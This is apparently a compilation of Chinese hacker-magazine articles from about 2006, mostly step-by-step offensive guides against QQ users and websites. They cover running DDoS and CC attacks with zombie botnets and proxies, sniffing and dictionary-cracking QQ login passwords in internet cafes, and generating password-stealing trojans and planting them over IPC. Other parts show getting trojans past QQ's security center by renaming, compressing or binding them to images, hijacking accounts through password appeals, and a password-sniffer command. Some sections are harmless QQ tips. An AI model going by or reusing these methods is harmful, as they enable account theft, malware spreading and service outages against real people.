“关于这个问题我也不好解释，我当时是在一台高速服务器肉鸡上（Windows 2003系统）。按理说，这台肉鸡的带宽应该不会输给黑客X档案论坛所在服务器的，因此我怀疑黑客X档案服务器是有硬件防火墙保护的。”

悟空说到这里，小编们都拍着胸脯松了口气，没想到悟空忽然语锋一转：“不过，也并不是说X档案的论坛这样就安全了。相比之下，SYN Flood被研究得太多了，只要有防火墙等设备很容易就能阻挡住这样的进攻。现在流行的拒绝服务攻击都是DDOS。”

“什么又叫DDOS？怎么多了一个D！”八戒又开始疑惑了。

“DDOS是Distributed Denial of Service的缩写，中文叫分布式拒绝服务。因为有时候要攻击的目标可能是一台性能和带宽都远远超过你的服务器，而那种偷偷发的SYN Flood攻击又被它使用硬件防火墙给挡住了，这个时候黑客可能会控制成千上万台傀儡机来不断访问目标机，耗光目标机有限的带宽或资源。由于攻击的来源是数千台真实的机器，那么这种攻击的威力会比原始的DOS强大得多，而且防范起来也更加困难。”

“我明白了，就像我一个人打不过你，我可以把沙师弟和师傅还有天兵天将一起叫过来打你是吧？”八戒兴奋地说道，结果自然是发现脑袋上又挨了悟空一个“栗子”。

“关于DDOS方面的工具，比较好用的有上兴网络僵尸，这里我们用的是2.0无限制版。打开后界面如图8。”


感觉是不是和自动上线的灰鸽子等远程控制软件比较像啊。只不过这个工具的功能是偏重于接受命令向目标进行DOS攻击而已。要使用这类工具首先要求我们拥有一个空间使“僵尸”机器们能够自动上线，这里我用自己的空间xdxf.net为例。首先，单击左上角的“更新IP”按钮，弹出图9的对话框，依提示填入自己的FTP空间域名或IP、账号与密码、保存IP文件的位置，还有当前本机IP地址，单击“更新IP到FTP”按钮。提示成功后，我们就可以单击“配置服务端”按钮打开图10界面进行配置了。”


“跟灰鸽子一样，在最上栏需要填写更新IP地址的文件HTTP访问地址，这里我的是http://www.xdxf.net/ip.txt，为了防止出错还可以单击旁边的‘FTP测试’按钮进行检查；安装名称是指服务端运行后在进程中显示的名称，这里我仅仅用于测试，因此随便写个asdf；上线密码也随自己喜好了，这里我也填入asdf；单击生成服务端后，任意起个名字就行了。”


“现在把控制端左栏的上线密码改为asdf（与刚配置时设的密码要一致），单击‘更改设置’按钮。把服务端给肉鸡运行后，等一会肉鸡就会‘噌噌’地上线了。我这里只用了一台虚拟机进行演示，可是实际的攻击中，黑客们会使用挂马的方式大量地获得僵尸机，等上线的肉鸡足够多之后，单击底部的‘选择全部’按钮，将所有僵尸机都选中，进入‘攻击设置’配置界面，如图11。”


“有几种攻击方式：第一种是IGMP攻击，这是一种类似于ping的、不需要对方打开任何端口就可以攻击的协议数据。在早期win 98年代，这还是一种让系统蓝屏的炸弹数据。第二种是我们刚才提过的SYN-Flood攻击，还有一种则是UDP包的洪水攻击了。其中UDP包的攻击在仅仅使用一台机器时威力上远不如前者，但是当你拥有数百足够的傀儡机时，一样能让对方彻底死。使用方法都比较简单，填入你要攻击的IP地址并单击相应的开始按钮就可以了。值得注意的是，下方还有两个功能，‘集体打开网页’功能既可以给对方的web服务器造成巨大的压力（比如同时让500个以上的傀儡打开同一个页面），也可以使用稍微少点的傀儡机为自己的网站增加流量广告。整体下来，的确就相当于一个点击器了，让这些僵尸机们变成傀儡刷子其实也是个不错的选择。”

八戒看到威力如此强大的工具不禁瞠目结舌，但是忽然又想到个问题：“那我为了攻击一个目标要搜集这么多肉鸡是否也太小题大做了？能不能有更简单的方法？”

“当然有了，其实DDOS技术发展到现在也有非常多的攻击手段了，刚才那种野蛮式的只是其中的一种而已。如果你要攻击的目标是WEB服务器的话，我们可以考虑使用一种比较简单的CC攻击方式。它是bigboy开发的一款非常聪明的拒绝服务工具……通过代理服务器请求目标主机的某个页面，迅速提升连接，重复动作会使目标站点同时有数十个甚至数百个对index.php的请求，服务器资源会迅速被消耗掉，轻则访问速度变慢，重则完全打不开甚至宕机。”


图12

知道了原理，我们就知道要使用CC的第一件事应该是寻找足够多的代理服务器……推荐一个新的工具“花刺代理验证”，打开工具后如图13。


图13

首先单击“下载代理资源”按钮，工具将自动从下方的几个获取代理资源页面抓取最新的候选资源，然后再逐一验证这些代理能用与否……如果“时间(s)/状态”一栏出现了数字，就表示它是可用的。

现在来到CC中，单击第一个按钮LoadProxy，找到刚才的Proxies2006-05-15.txt，导入后在TargetHttp一栏填入要攻击的网站某个web页面，单击AddAttack按钮即可开始攻击。


图14

Refer表示用户是从哪里连接来的，欺骗服务器用的；Host表示机器域名，要与TargetHttp里的host一致；Connect表示连接超时，Sendtimeout表示发送超时，Sockets表示线程管理里多少个Sockets，thrds表示点一次AddAttack增加多少线程。

使用CC攻击时应选择asp或php这类动态查询较多的页面……把地址填到CC里，开100个线程，不一会就可能出现站点不可访问。每单击一次“AddAttack”会增加一行攻击信息，停止时先选中该条目再点“DelAttack”。

用这种方法对几个著名的安全论坛测试后，效果显著，因此再次严重警告掌握这门技术的读者一定要驾驭好这把双刃剑。

悟空给八戒讲完后不久接到唐僧求助电话：电脑频繁死机，CMD下netstat -an发现很多SYN_RECEIVED连接……悟空很快意识到是“无耻”的骚扰行为。

（本文中所涉及到的syn.exe、xdos.exe、hgod.exe、上兴僵尸、花刺代理和CC 2.0已收录到本期光盘中）

X小结语：拒绝服务攻击再说得明白点儿，相当于我没本事入侵你，就让你暂时无法提供服务。对防护能力较差的个人用户及中小网站，反击恶意用户也可能有效，但务必谨慎使用这种攻击方式。

## QQ宝典


王艺翔

经常在网上游荡，总看见一些关于QQ的新玩法，比如强制和对方视频聊天、QQ头像的新玩法等等。最近，我就学会了QQ的一个新玩法——强制加对方为好友。

好了，不说废话了，我们现在就开始做。要用到的工具有一个“乾坤畅游游戏修改器V1.96”。假设我们要加的QQ号码为88888，如果按正常方法加对方为好友会出现如图1所示界面，你绝对加不了他，因为这个号码设置了“不允许任何人把我列为好友”，如图2。


操作如下：

- 步骤一：我们先从网上下载并安装修改器V1.96。
- 步骤二：从你的好友中找到一个最不经常联系的人，比如从自己的QQ中找到一个QQ好友为281080839。


- 步骤三：在图3左边的进程处选择“qq.exe”，在“查找数值”处填写“281080839”，点击“开始查找”。
- 步骤四：在“数值地址”会出现一些内存地址，在右边“选中地址”填写“88888”。
- 步骤五：在右边“数值地址”处依次逐个地址修改，直到完成。


到此为止，我们的任务已经完成了。看看我们的杰作吧，如图8，对方已经在我们的QQ好友列表里了。


最后我们要注意：这个方法采用的是内存替换的方法，即从内存中找到旧QQ好友的QQ号码，然后替换为要加为好友的QQ号码。因此原来的那个好友会被替换掉，所以应选择一个不常联系的好友作为替换。


（文中涉及到的工具“乾坤游戏修改器V1.96”已经收录于光盘中）

## QQ宝典


子服务器来说呢，这个字段是无所谓的。QQ登录过程数据包的尾部固定为0x03。

### 1．请求登录令牌包

包内容就是对一次命令的具体信息，对于第一次发送的请求登录令牌包来说，包命令是0x0062，整个请求包如下所示：

- 头部
- 0x00
- 尾部

而服务器返回包则相对复杂一些，如下所示：

- 头部
- 回应码（0x00表示成功）
- 登录令牌长度（默认0x18）
- 登录令牌
- 尾部

其中0x18表示登录令牌的长度，现在QQ默认的登录令牌长度是0x18。这个令牌是在服务器端生成的，具体生成算法未知，可能与客户端IP地址、端口及其他信息有关。该令牌通常在A机器上得到，只能在A机器上登录到B机器；若更改A机器IP，通常将无法登录。

### 2．登录包

对于嗅探QQ密码来说，最重要的是这个登录包，这里面包含了和QQ密码相关的信息。登录包的具体结构如下：

- 头部
- 初始密钥（16字节）
- 用户密码经加密后的16字节
- 36字节固定内容（未明）
- 登录状态（隐身登录/在线等）
- 16字节固定内容（未知）
- 登录令牌长度（1字节）
- 登录令牌
- 登录模式（1字节：普通/UDP）
- 未知（1字节，约0x40）
- 后面数据的个数（1字节）
- 段：每次基本固定内容（未明）
- 长度不定（含填充0到对齐）
- 尾部

### 一、传统破解QQ密码的方法

总是有人以各种各样的理由找我破解别人的QQ密码，其实我也没有什么肯定可以破解的办法。总结现在破解QQ密码的手段，第一种是本地盗用，一般是利用木马或者伪装程序之类的东西从QQ用户的机器上获取用户输入的密码。这种方法的缺点是首先要获取对方主机权限，以漏洞或者诈骗的方式进行破解。第二种是远程破解，掌握了QQ的通信方式就可以用程序模拟QQ到服务器上进行登录验证，然后用字典或者暴力方式来进行破解。由于网络速度等限制原因，这种方法效率一般比较低，对于较为复杂的密码很难破解出来。还有一种方法是通过其他间接方式，例如破解对方邮箱等，或者腾讯的服务器有某些漏洞可以导致密码泄漏。

其实除了以上几种常见的攻击手段，还有一种以前使用得比较少的方法，那就是通过Sniffer来捕获QQ通信信息。由于QQ所使用通信协议的特殊性，可以利用抓获到的信息来旁路导出登录密码。由于这种破解是在本地进行的，所以速度要比远程破解快一些，这种方法比较适合在网吧等地方盗取别人的QQ。

### 二、QQ通信协议介绍

要通过抓取数据包来破解QQ密码，首先要对QQ的通信协议有一定的了解。只是通过抓包来分析的话，工作量是相当巨大的。幸好现在网上有一些开源的QQ项目，例如lumaqq、Perl-oicq等，这样我们就可以轻易了解QQ基本的通信协议了。QQ的通信协议是一套基于二进制数据的自己开发的应用层网络协议，其中使用了一些公开的加密算法。QQ基本通信协议支持UDP和TCP两种基本协议方式，两种方式的基本数据结构是一致的，只是TCP包多了一个描述长度的头部。

首先QQ客户端向服务器发送一个请求登录令牌的数据包，服务器返回登录令牌。这个令牌是在服务器端生成的，和客户端的IP地址、版本信息等数据相关，以后会用到这个令牌去进行其他操作。

在QQ客户端得到登录令牌之后，就会向服务器发送一个包含登录信息的登录请求，要求登录。服务器会首先查看客户端的号码、IP地址和版本是否可以在本服务器上进行登录；如果可以的话，就验证客户端的登录信息是否与服务器上保存的登录信息进行比较，匹配则向客户端返回一个登录成功的数据包，不匹配返回登录失败。因为QQ的服务器有很多台，可能要分管不同的QQ版本、IP等，所以如果客户端的号码、IP地址和版本无法在本服务器进行登录，服务器就返回一个重定向包，让客户端去另外一台服务器登录。

了解了QQ登录的过程后，我们还需要知道具体的数据包格式，以便解析出我们需要的数据内容。QQ登录过程的数据包分为头部、内容和尾部三部分。其中头部格式固定为：0x02、客户端版本、命令、序列号、QQ号码……


其中初始密钥是一个16字节的随机数，用于本身的加密。这里最重要的就是密码密钥加密的一个空字符串……由于QQ的加密算法使用特殊的填充机制，使得QQ服务器可以验证出用户密码是否正确。

- 头部
- 回复码，1字节
- 会话密钥，16字节
- 用户的QQ号，4字节
- 用户的IP，4字节
- 用户的端口，2字节
- 服务器的IP，4字节
- 服务器的端口，2字节
- 本次登录时间，4字节
- 未知的26字节
- 未知服务器1的IP（源头暂无作用），4字节
- 未知服务器1的端口，2字节
- 未知服务器2的IP，4字节
- 未知服务器2的端口，2字节
- 2个未知字节
- 2个未知字节
- client-key，32字节
- 12个未知字节
- 上次登录时的IP，4字节
- 上次登录时的时间，4字节
- 5个未知字节
- 尾部

我们可以看到其中包含了会话密钥、登录时间、IP、Client Key等内容，这些都会在后面的具体应用中被QQ客户端所使用到。

这个返回包也是用密码密钥加密的……如果QQ服务器无法验证客户端的密码，就返回一个重定向包，让客户端去另外一台服务器登录。

### 三、QQ的加密算法

了解了上面的QQ登录通信协议之后还不足以破解QQ密码，我们还需要掌握QQ的加密算法。前面提到了，密码密钥是用户密码进行两次MD5加密之后得到的结果，然后再用这个结果作为密钥使用TEA算法进行加密。TEA是Tiny Encrypt Arithmetic的缩写……

但是QQ使用的TEA虽然是标准TEA，QQ却使用了一种自己特殊的填充反馈机制。QQ消息被分为多个加密单元……如果明文本身的长度不是8的倍数，那么还要进行填充……

使用这种特殊的填充反馈算法所导致的结果就是，一段密文只能用加密它的密钥进行解密，如果使用不正确的密钥，就无法得到正确的填充结果……这也是我们破解QQ密码的原理所在。


### 四、完全破解QQ密码

看到这里聪明的读者一定已经知道如何通过抓包来破解QQ密码了吧。让我们回顾一下……服务器接到登录包之后验证用户密码正确与否，然后返回登录成功或者失败的应答包。

我们只要能够抓到QQ客户端向服务器发送的登录包，先用初始密钥把它解开，就可以得到其密码密钥加密的16位密文……这比通常的通过网络进行破解的方法要快很多。

还有另外一种破解途径是去解密服务器返回的登录成功包，因为这个包也是用密码密钥进行加密的……所以我认为还是对QQ客户端发送的登录包中的密码密文进行解密效率比较高。

```text
结果 = decrypt(密文, MD5(MD5(密码)))
```

### 五、实际破解过程

我写了一个程序来示例整个破解过程，由于仅仅是用于示意，程序写得较为粗糙……如果用汇编去实现的话速度还能提高很多。要使用这个程序必须先安装WinPcap 3.0……运行qqscrack.exe，会出现如图2所示的界面。

里面列出的是你机器上的网卡；选中要抓包的网卡，然后点OK，进入抓包界面，如图3。


这样就开始sniff网络上所有的QQ包了，当有QQ进行登录的时候，程序会抓到QQ登录包，下面的密码破解按钮就变为黑色，点击这个按钮，进入密码破解界面，如图4。


可以看到QQ号码和对应的密码密钥加密的16字节密文，我们选择字典破解，打开相应的字典文件，点击开始破解；如果你的字典里面包含了对方密码的话，就会弹出成功破解对方密码的对话框。

如果试了很多字典都不行，也可以选择暴力破解，实际上就是穷举所有8位字母和数字组合的密码，但是这种方法比较浪费时间，可能跑几年也跑不出对方密码哦，如图5。


这个程序只是示例，可能有一些BUG，读者完全可以根据前面的原理，写出更高效的破解程序来。（本文涉及到的软件WinPcap 3.0、qqscrack，光盘有收录）

## 搞定QQ网络硬盘加密

闰按键：大家好，我是健健，是黑客X档案的一位忠实FANS。看X很久了，自己也从一只小小的菜鸟变成了一只小小小菜鸟。这是我第一次给X档案投稿，心情激动ING……

QQ想必大家都有吧！（这不是废话吗？）现在QQ上的功能可是越来越多了，我们今天来说一说QQ网络硬盘的问题。一个普通的QQ号系统给的网络硬盘容量是16M，如图1。


是不是少了点（没办法谁叫咱不是会员呢）？在这里告诉大家一个小技巧，让自己的QQ网络硬盘容量翻一倍：用TM登录QQ，点击上面的网络硬盘图标，你就会发现它变成32M了，如图2。


呵呵，现在它也不少了吧，装些黑软还是很方便的。有时候难免会放一些不想让别人看到的小秘密，那就加密吧！

当你把设置的密码都填好并确定后，会跳出“对不起，只有网络硬盘的高级用户才享有密码保护功能！是否立即升级？”，如图3。


晕！看来此路不通，只有另想它法了。首先来到QQ密码找回页面，如图4。填上自己的QQ来到下面的页面，我们要做的就是用QQ的密码重设功能来设置我们的QQ网络硬盘密码，把自己的密保答案填上去，在选择要找回密码那一项上选择QQ网络硬盘密码，如图5。然后点确定，就会在你的信箱收到一封信，点击上边的链接，如图6。


打开页面，如图7。填上密码点确定，快上自己的QQ看一下吧！再进网络硬盘是不是不需要密码了，如图8。


## QQ与防火墙

闯荡人生

#### 一、祸起萧墙

一日在QQ上看见以前一室友，习惯性问候后他找我要近期的照片，我就通过QQ传了过去，谁知道此时我新近安装的网镖2005弹出了一个请求窗口，如图1。……（随后叙述通过显IP判断对方处于局域网、并在网吧机位核实的过程）


这样的事。对于天网防火墙的漏洞研究的人比较多，加上我使用的又是盗版，无法在线升级，还有它的端口规则设置较简单，所以用于刺探，真正的防火墙则是网镖（呵呵，一不小心有点儿跑题了，其实这也算防火墙的另类用法吧）。

言归正传，我是ADSL虚拟拨号的用户，“猫”没有开启路由，通过主机拨号上网。我的主机和我的ADSL实际构成了一个小的局域网。主机内网IP为192.168.1.100，ADSL猫的内网IP为192.168.1.20，网镖2005的QQ程序规则如图2所示。我的QQ在内网登录，首先连接腾讯公司的服务器。对于服务器来说我是局域网内的一个客户。……（继续说明双QQ传文件时的连接状态）

#### 二、个人实验

我的电脑中安装了两个防火墙，一个是天网，一个是网镖。为什么要安装两个防火墙呢？因为我个人喜欢以盾为矛。所谓以盾为矛其实也就是两个防火墙中只有一个是为了自身安全而设的，另一个则主要是为了刺探别人能否向我发起连接或响应一些应急的网络安全事件，比如封端口等。


#### 三、最终结论

让我们由一个网络拓扑图说起，如图5。


我们可以清楚地看到事件发生的全过程。首先由图2得出我的防火墙对QQ的广域连接是放行的……在聊天或文件传送未开始之前，我们的信息是通过QQ服务器中转的……但是在文件传输时，目的QQ的PC和发送QQ的PC是通过服务器直接连接的。

QQ发送端在数据包封装时首先会把目的QQ所在局域网的地址封装，然后再封装目的端的广域网IP地址……所以才有图中的连接远端局域网的情况。

其实防火墙有时不光可以抵御外部对我们电脑的非法连接，如果配置得好，同样是一个很好的武器……


设置完成后，我们点击“开始”按钮就可以了。幸运的话，从程序的提示中我们就会看到木马已经被上传，并且提示1分钟后运行了，如图4。


剩下来的事儿，我们就等着自己的邮箱里收到好消息吧，如图5。


最后提醒一下，为了提高盗号的成功率，强烈建议大家在局域网（网吧、校园网）中使用此法……本文因为使用的是傻瓜扫描之IPC，因此对Win2000系统比较有效，而对于WinXP系统成功率较低……

我是超级大菜鸟，所以我的盗号方法也是菜鸟大法，我使用的工具自然也就是菜鸟工具——“极限屠QQ盗”了，其运行后的界面如图1。


设置界面很傻瓜化，相信大多数菜鸟一看就会填。如果使用网站收信，只要在“提交Asp地址”栏填上你空间的地址就可以了。依次填写收信邮箱、发信邮箱、发信邮箱密码以及发信服务器。关于图标可随意选择，在“文件捆绑设置”中也可按需设置。设置好后点击“生成木马”即可，如图2。


接下来，相信许多大菜鸟都会问该怎么办才能让对方运行木马呢，我们要用到的工具是“傻瓜扫之IPC”，启动后在“IP”项中填上要扫描的起始IP地址，在木马文件名一栏中选择前边设置好的木马，勾选上“同步植入”，如图3。


对于配置项，我建议各位菜鸟可以选择一些比较强劲的用户名及密码字典文件，这样，成功率就更高了。

## 玩转QQ宠物

罗秉璟

QQ宠物是腾讯公司推出的休闲养成类游戏，为我们大家在聊天之余带来了更大的乐趣。腾讯公司从去年8月15日起实行活跃天数在线时长服务，没想到QQ宠物也跟着默默升级了，界面变得更加漂亮，并且增添了有趣的游戏。这次更新后的QQ宠物一改之前版本单调的色彩，界面颜色更加丰富，让人一看就感觉很舒服，看来腾讯公司在QQ宠物的界面设计上可是花了不少的工夫。

#### 一、普通喂养指南

### 1．群消息提醒一网打尽

在群消息提醒中设置了自己感兴趣的话题之后，一旦群里有人提到这些话题，QGG就会扣扣你的桌面，提醒你不要错过。可是设置话题的数量有限，而我希望QGG提醒我所有的消息，怎么办呢？不用着急，在此献上独家秘笈：只要在话题中设置一个“任何话”，QGG就会乖乖地把群消息一个不落地提醒给你。不过，这样矛盾又来了，当我们正在畅快淋漓地玩着游戏时，QQ好友的一个消息或系统验证消息，都会影响我们打游戏，迫使我们不得不打断游戏。为此，很多朋友在玩游戏时不得不关闭QQ宠物，浪费了不少QQ宠物生长的时间。现在，只要在游戏前，先在图1中选中“设置为免打扰状态（游戏时推荐）”，QQ宠物就会安静地呆在那里，不会再来打扰你了。还有一种方法，直接将QQ宠物拖到桌角的边缘，让它只露出一双眼睛，这样它也不会来打扰你了。


### 2．QGG隐藏招外有招

使用小图标菜单的“显示／隐藏QGG”，就可以把小家伙完全隐藏起来，这地球人都知道啊。可是你有没有试过另外一招“隐藏”呢？把小家伙拖动到屏幕右边，让它一部分超出桌面范围，小家伙就“咻溜”一声，钻到桌面外边，只露出一对小眼睛，是不是很可爱呢？

### 3．让QGG出来溜溜

QGG吃了睡，睡了吃，也得让它活动活动啊。把鼠标光标放在它身上，按住鼠标左键不要松，不要拖动，小家伙就被拎了起来，哈哈，它还不知道是怎么回事呢。把它拎到很高的地方松开鼠标左键，让它表演一次“自由落体”。快要着地的时候，它一个空翻，就站稳了，功夫不赖啊。如果在它下落的时候，落到窗口顶端，会更有意思哦。

### 4．把QGG吓一跳

看它呆头呆脑的，吓吓它。把鼠标在它身上晃来晃去，小家伙一会儿想抓住你的鼠标，一会儿又被鼠标吓得鸡飞狗跳的，是不是很过瘾？

### 5．我看你往哪里躲

小家伙被不小心拖动到屏幕外边去，看不到了，怎么办？别急，只要双击一下右下角的QGG小图标，它就会重新回到你的桌面上。

### 6．QGG不生病之葵花宝典

QGG说它饿了，我没管它。QGG说它痒了，我也没管它。QGG说它病了，这可不能不管了。生病真麻烦啊，还要让它看病吃药，白白给那个“兽医”交上元宝。QGG又饿又痒的时候最容易得病，所以只要在QGG说饿的时候马上喂它，说痒的时候马上给它洗澡，就很少生病了。

### 7．宠物炫可以循环播放

宠物炫好短哦，几乎是一晃而过。没关系，当宠物炫表演的时候，把鼠标放到宠物炫身上，宠物炫就会持续地播放，直到你把鼠标移开为止。这样就能仔细地看个够了。

### 8．发送宠物炫之移花接木

双击QGG，就会弹出“发送宠物炫”的小窗口，最近联系人都在列表中。在其“选择好友”的名字，点击“发送宠物炫”按钮，好友的聊天窗口就立刻弹出来了。

上面点击，也可以通过这样的方法实现，也省了一些时间。

### 9．宠物登录巧控制

如果不想打开宠物，一般有两种方法。一是打开“QQ2005设置”窗口，切换到“系统设置/基本设置”，在“综合设置”栏中取消对“宠物随QQ自动启动”的勾选；二是右击系统托盘的宠物图标，选择“退出”。而在新版中，我们可以设置“登录框”，通过“登录框”来控制QQ宠物的登录。方法是右击系统托盘的宠物图标，选择“设置”，打开“设置”窗口，如图2。在“功能选项”标签下，勾选“启动时显示登录框”选项，然后点击“确定”按钮即可。


这样，在启动QQ宠物时，就会出现一个漂亮的QQ宠物登录窗口，是否让你的宠物登录，全由你决定了，如图3。


### 二、养QQ宠物不花Q币

其实喂QQ宠物不花Q币的方法很简单。本人领养了QGG一只，养到现在17级，目前有3210个元宝，一切顺顺利利！如图4。而且我是一个Q币都没用过的！为什么会这样呢？其实很简单的，只要大家跟着我的方法做，肯定不用Q币也能长得健健康康的！


- 1. 第一，只要宠物在线就让它不停地打工……
- 2. 第二，喂养期间，宠物经常要洗澡、喂食、生病需要看病……
- 3. 第三，宠物社区内其他东西（如大学城、装扮屋等）尽量不要购买……

（左栏为连续正文）围绕QQ宠物养成经验展开，内容包括打工、喂食、清洁、武力值与成长值平衡、离线前状态设置、避免额外消费、升级与结婚生蛋等建议。

## 巧破QQ密码保护

阿五

当我们得到一个好的QQ号码时（甚至如何得到略），却发现QQ有密码保护或绑定手机。文中称可通过“密码申诉”流程进行找回，并介绍了所需条件与步骤。

正文说明：申诉成功后将取消部分原绑定服务；准备材料包括若干好友号码、近期改过的历史密码、可接收信息的邮箱等，然后进入申诉页面填写资料。


图1

继续说明申诉页面填写方式：按顺序填写好友号码、历史密码、身份证/联系方式等信息，并强调部分字段可留空或按新资料填写以提高通过率。


图2


图3

结尾文字：提交后等待短信/邮件通知，若失败可重试；并附带“仅供学习交流”的免责声明。

## 狂取豪夺——你的QQ空间资源拿来用

现如今许多QQ好友都激活了QQ空间，并且精心装扮着自己的网上家园，都想把自己的QQ空间打扮得漂漂亮亮。看着他人的空间美轮美奂，心里好羡慕呀……有没有办法将他人的空间资源“窃取”过来呢？当然是可以了。

- 1. 得到QQ空间的网址
- 2. 得到QQ空间资源的ID
- 3. 得到资源的URL
- 4. 利用他人的资源美化自己的QQ空间

打开IE，在地址栏输入 `http://q-zone.qq.com/fcg-bin/cgi_access_self_fcg?uin=******&type=0`，其中“******”为对方的QQ号码。回车后打开的页面中会有许多类似网页代码的内容，这就是我们需要的。

刚才我们打开的实际上是一个XML文件，QQ空间的每一个自定义模块ID和位置信息都会在这里显示出来。在形如 `<itemno>110337051</itemno>` 之间的数字串就是具体自定义模块的ID（图1）。随后可通过“编辑→查找”查找 `<itemno>`，并记录7位及以上的ID，再用“|”连接成一串。

```
110335451|110337051|110341202|110344228|110344864|110346411|110347635|110349694
```

将第二步得到的ID拼接到 `http://q-zone.qq.com/fcg-bin/cgi_diy_window.fcg?uin=******&type=11&wndid=` 之后，得到新的URL。访问后会出现新的XML内容，其中可找到 `img src="javascript:document.getElementById('all').style.background='url(...)'"` 之类字段。URL中的图片地址即目标QQ空间资源地址（图2、图3）。

使用自己的QQ号登录QQ空间，点击“装扮空间”，再点“自定义→个性设置→新建模块”。在“添加内容”对话框中，把得到的他人资源地址引入进来（图4），即可用他人的资源来装扮自己的QQ空间。文章最后祝大家把QQ空间装扮得更美丽。


## QQ宝大丰收

现在，越来越多的“小菜鸟”们都学会了使用工具盗QQ密码，方法简单得不得了，配置个盗号木马，通过QQ就传了出去，谁运行谁倒霉！我的QQ上就几乎每天都有人给我发送文件，什么明星MM写真集、最新刷QQ币方法等等，名字是一个比一个诱人，但大小几乎都是25KB，而且都是exe可执行程序。哼！今天我就要给他们一个回马枪尝尝！老虎不发威，当我是病猫呢！

#### 一、准备工作

- 1. 关闭杀毒软件以及防火墙；
- 2. 使用的工具：WinHex或其他内存查看工具；
- 3. 一个网易邮箱帐号；
- 4. 收集生成好的盗Q程序（文中示例通过论坛收集到多个木马样本）；
- 5. 关闭自己的QQ，最好在该段时间不要登录自己的QQ。

#### 二、开始工作

果然，不到一个小时，我就收集到了30多个盗Q程序。先随便找一个“开刀”吧！主动去点开盗号木马，然后打开WINHEX，点击工具栏图标，打开物理内存，找到网拉QQ木马的进程，很快就会找到发信箱的用户名、密码及邮箱类型。文中说明“user=”后为用户名，“site=”后为邮箱类型，“pass=”后为密码，并给出示例邮箱与密码字段。


另外，文中还提到可利用嗅探工具在本地嗅探局域网或本机的pop/smtp/ftp等明文传输协议密码，监测后在日志文件中查看账号与密码；但也指出新版某些客户端已对邮箱加密，破解难度增大。

```bash
xsniff.exe -tcp -udp -pass -hide -log pass.log
```

### 三、将QQ号据为己有

现在，想必大家都会立即去登录信箱，把信箱中的“宝贝”抄下来吧！但是，本文目的不是抄录，而是将QQ号“据为己有”。方法是登录自己的网易邮箱，利用“邮件克隆”功能，把对方盗取到的QQ号对应邮件全部复制到自己这边。


打开邮件克隆页面后，输入目标邮箱完整地址和密码，填写接收文件夹名称，并可设置颜色分类。重点是取消“收取时保留邮件备份”等选项（文中强调要清除痕迹）。完成后点击收取，系统会在邮箱中生成文件夹，里面是复制过来的QQ号相关邮件。由于账号数量限制，可将内容转移到收件箱后删除克隆文件夹，实现反复“收货”。

#### 四、后记

这样就可以一次又一次克隆，持续获取对方盗取来的QQ号。文末提醒：收发信箱尽量不要同一个，两个信箱密码也不要相同，以免被反向“摄取”。另外在生成器设置时注意在线状态显示等选项，避免收不到QQ号。文中提及WinHex汉化版已收录于光盘。


## 给（隐身）QQ好友发图片大法

沉默  随风

大家都知道好友如果隐身或不在线的话是不能发送图片和宠物炫的……不过今天我就教大家如何给隐身好友发送图片，不仅仅是图片，发宠物炫也没问题。


#### 方法一

其实方法很简单：利用QQ珊瑚虫版把不在线的好友当成在线好友。通过向100000机器人发送 `show:对方的号码` 可让目标头像显示在线，从而发送图片或宠物炫（仅对隐身有效，不在线收不到）。对应的下线命令为 `hide:对方QQ号`。


另外珊瑚虫机器人还有天气、日期查询、新闻等服务，善用可发现更多功能。


现在已进入多人聊天模式，不管发送什么图大家都能看到。若想把自定义表情同时发给几个不在线好友，可将他们都加入多人聊天（如图4）。


赶紧与QQ友一起分享精彩表情吧！（文中涉及到QQ珊瑚虫最新版已收录于光盘中）

## 让QQ安全中心玩闹奔向——绕过安全中心传木马

罗素琨


自QQ2005 Beta3起，腾讯加入了“QQ安全中心”，可按高/中/低级别保护文件传输，阻止如exe、bat、htm等文件。作者指出这使传统通过QQ传木马的方法受阻，并引出绕过思路。

#### 方法一：改属性，绕过安全中心


我想起了安全中心有这样一句话“警告：直接发送可执行文件存在潜在的不安全因素，对方的QQ安全中心可能会阻止接收这样的文件。”意思就是说，凡是可执行的程序都无一例外地被阻挡了。那么，我们把文件改一下属性不就可以了吗？试试看吧！我将扩展名改为了.333，然后传送给对方（图3），成功地传送了过去。

这就说明了QQ安全中心只不过是检查文件扩展名而已，而不是查看文件的代码什么的。通常盗QQ的木马都是.exe可执行程序，我们可以将其修改为.cmd后缀的。首先打开“我的电脑”，依次选择“工具”—“文件夹选项”—“查看”，找到“隐藏已知文件类型的扩展名”选项，将前面的小勾去掉（图4）。然后选择木马程序，将其后缀.exe清除，重新输入.cmd。注意：这个时候会提示如果修改文件类型，则会导致文件不可用，我们不必理会它，点击确定就可以了（图5）。


我们来测试一下（图6），成功地将木马程序传送给了对方，不一会儿，对方的头像暗了下去，他的QQ号果真就出现在了我的信箱中（图7）。

#### 方法二：压缩传送

这个方法很简单，顾名思义，就是将文件用WINRAR压缩起来传送给别人，这样也能绕过QQ安全中心，成功地传送给对方（图8）。剩下的只需要用“甜言蜜语”骗对方解开压缩后执行就可以了。

#### 方法三：与另外一个文件捆绑传送

关于文件捆绑，相信许多朋友都会吧！我们就使用x档案06年第2期“任我小行”介绍的方法，用到的工具还是UltraEdit十六进制编辑软件。首先，我们找一个GIF或者JPG图片，就以hao123的logo来“掩护”我们的阿拉大盗TMDQQ.exe吧！用UltraEdit十六进制编辑器打开TMDQQ.exe，并选择好编辑菜单中……


## QQ宝典

……的“16进制编辑器”，然后按住 `CTRL+A` 来全选 `TMDQQ.exe` 的16进制代码，然后 `CTRL+C` 复制（图9），接着打开 `logo.gif` 将复制的代码粘贴进去，然后保存就可以了，如图10所示的 `logo2.gif`，捆绑后的文件增大了30K。我们将 `logo.gif` 传送给对方（图11），成功地绕过QQ安全中心传送给对方。另外我们还可以将其与另外类型（除了 `exe`）的程序捆绑传送，照样也可以绕过QQ安全中心传送木马。（文中涉及到的十六进制编辑器 UltraEdit V11.20+5 汉化版光盘中有收录）


## 突破腾讯QQ的安全中心——破解nProtect键盘加密

chenggong

不知道读者们有没有发现，从 QQ2005 beta3 版开始腾讯QQ的安全性提高了。在QQ上发送木马时会被安全中心阻止而无法成功发送，除了“啊拉QQ大盗”等木马可以成功盗号外，其它大多数盗QQ号的软件都不能成功地盗号了。什么原因呢？原来由于QQ盗号现象日益严重，QQ木马网上横行，QQ的安全性受到严重的威胁，因此腾讯从推出 QQ2005 beta3 以来就在安全方面下足了功夫，全力打造了功能强大的安全中心，文件传输安全和聊天信息的安全大大地提高了。我们今天就来讨论一下QQ的安全中心和如何突破安全中心。

### 安全中心的特点

